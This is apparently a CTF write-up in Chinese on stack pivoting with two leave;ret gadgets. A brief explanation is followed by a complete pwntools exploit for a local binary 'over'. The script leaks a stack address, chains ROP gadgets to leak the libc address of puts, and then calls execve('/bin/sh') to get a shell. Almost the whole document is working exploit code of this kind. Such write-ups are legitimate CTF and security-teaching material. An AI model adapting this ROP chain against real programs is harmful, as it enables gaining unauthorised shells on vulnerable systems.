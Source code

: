 主要是通过两次leave ret来实现。

leave = mov rsp,rbp;pop rbp

ret = pop rip

第一次通过leave中的pop rbp使rbp跑到目标区域，第二次通过leave中的mov rsp,rbp让rsp过去。

这题的fake framing选在了rsp起始的位置，也就是栈顶。



```python
from pwn import *

io = process('./over')

context.log_level = 'debug'
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
'''
0x0000000000400793 : pop rdi ; ret
'''
'''
libcgadgets 0x00000000001150c9 : pop rdx(3) ; pop rsi(2) ; ret
'''
elf = ELF('./over')
libc = elf.libc
leaveret = 0x4006be
poprdiret = 0x400793
io.recv()

#leak old rbp to cal stack addr
payload = "A"*79 + "B"
io.send(payload)
io.recvuntil("B")
oldebp = u64(io.recv()[0:6].ljust(8,'\x00'))
nowebp = oldebp - 32
stackstart = nowebp - 80
print hex(oldebp),hex(nowebp),hex(stackstart)


#ROP to leak libc
payload = p64(1) + p64(poprdiret) + p64(elf.got['puts']) + p64(elf.plt['puts'])+p64(0x400676) + "A"*(80-5*8) + p64(stackstart) + p64(leaveret)

#gdb.attach(io)
#io.interactive()
io.send(payload)
io.recv(2)
putaddr = u64(io.recv()[0:6].ljust(8,'\x00'))
print hex(putaddr)
libcbase = putaddr - libc.symbols['puts']
execveaddr = libcbase + libc.symbols['execve']
binshaddr = libcbase + libc.search('/bin/sh').next()

pop_rdx_rsi_ret = 0x00000000001150c9+libcbase



#ROP to get shell by calling execve
pay = p64(1) + p64(poprdiret) + p64(binshaddr) + p64(pop_rdx_rsi_ret) + p64(0) + p64(0) + p64(execveaddr) + p64(0xdeafbeef) + 'A'*(80-8*8) + p64(stackstart-0x30) + p64(leaveret)


io.send(pay)


```